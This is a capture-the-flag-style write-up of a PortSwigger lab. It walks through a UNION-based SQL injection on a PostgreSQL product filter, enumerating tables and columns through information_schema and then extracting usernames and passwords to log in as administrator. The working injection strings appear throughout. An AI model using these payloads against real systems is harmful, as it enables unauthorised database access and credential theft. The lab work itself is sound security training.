

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- SQL injection vulnerability in product category filter
- Results are returned, common injection
- UNION based attack vector
- Goals:
  - Retrieve name of user table
  - Retrieve column information of that table
  - Extract usernames and passwords for all users
  - Login as `administrator` user

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical with the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

The number of colums in this case is 2, with both being string columns.

### Find users table

The database in use here is postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html) the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```


### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) holds information about the colums of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'-- to form this query

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'`
```


### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```


Now simply login to solve this excercise.


